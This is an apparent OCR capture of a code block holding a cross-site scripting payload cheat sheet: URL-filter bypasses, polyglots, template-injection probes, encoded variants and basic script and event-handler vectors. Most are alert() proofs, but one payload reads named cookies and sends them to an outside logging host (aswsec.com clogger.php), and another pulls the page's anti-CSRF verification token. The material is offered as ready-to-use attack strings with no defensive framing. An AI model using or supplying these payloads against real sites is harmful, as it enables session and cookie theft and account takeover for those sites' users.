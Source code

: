 
```js
//URL filter bypasses
javascript:alert(document.domain);//https://
jAvAsCrIpT:prompt('xss');//https://www

//adam level bypass - replace the src to be an oastify
javascript:(async()=>{let t=(q=>{let d=document,w=globalThis;(new w.Image).src='https://www.aswsec.com/exploit/clogger.php?loc='+encodeURI(d.location)+'&dt='+encodeURI(new Date(Date.now()).toISOString())+'&cookie='+encodeURI(q.replace(/\+/g, "%252B"));});for(let s of ['cookieName1','cookieName2','cookieName3'])fetch('/plugins/react/pages/api?action=readCookie&cookieName='+s).then(r=>r.ok?r.json():null).then(d=>d&&t(s+'='+d.cookieValue)).catch(()=>{});})();//https://

//another adam bypass 2
javascript:parent.window.alert(document.domain);x=globalThis.parent.window.document.getElementsByName("__RequestVerificationToken")[0].value;document.writeln('REQUEST VERFICATION TOKEN IF NEEDED FOR EXPLOITING: ' +x);//https://www

//gareth heyes
#!@*%alert`1`
+!+[]

//polyglot test
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
//json safe
javascript:/*--><\/title><\/style><\/textarea><\/script><\/xmp><svg\/onload='+\/\"`\/+\/onmouseover=1\/+\/[*/[]\/+alert(42);//'>

\j\av\a\s\cr\i\pt\:/*--></title></style></textarea></script></xmp><svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

//website or url fields
javascript:parent.window.alert(document.domain);x=globalThis.parent.window.document.getElementsByName("__RequestVerificationToken")[0].value;document.writeln('REQUEST VERFICATION TOKEN IF NEEDED FOR EXPLOITING: ' +x);//https://www

//template injections
{{7*7}}
{{7*7}}${{8*8}}{9*9}${2+2}


//basic
"><script>alert(1)</script>
"><!--`--><img src="x" onerror="alert(1)">
"><![CDATA[<img src="x" onerror="alert(1)">]]>

<script>alert(document.domain)</script>
<img src=x onerror=alert(document.domain)>
<svg/onload=alert(document.domain)>
<body onload=alert(document.domain)>
<iframe src="javascript:alert(document.domain)"></iframe>
<marquee onstart=alert(document.domain)>
<math><mtext><style><img src=x onerror=alert(document.domain)></mtext></math>
<a href="Ja&#x76;A&#x73;c&#x72;iPt:cOnfIrM(1)">break4</a>
<a data-info="<script>alert('XSS')</script>">Info</a>

//base64 for alert`1`
data:text/html;base64,YWxlcnRgMWA=
//base64 javascript polyglot
data:text/html;base64,amF2YXNjcmlwdDovKi0tPjwvdGl0bGU+PC9zdHlsZT48L3RleHRhcmVhPjwvc2NyaXB0PjwveG1wPjxzdmcvb25sb2FkPScrLyJgLysvb25tb3VzZW92ZXI9MS8rL1sqL1tdLythbGVydCg0Mik7Ly8nPg==
// %60 replace ` and / replaces spaces
<svg/onload%3dalert%602%60 trash%3d<!--
```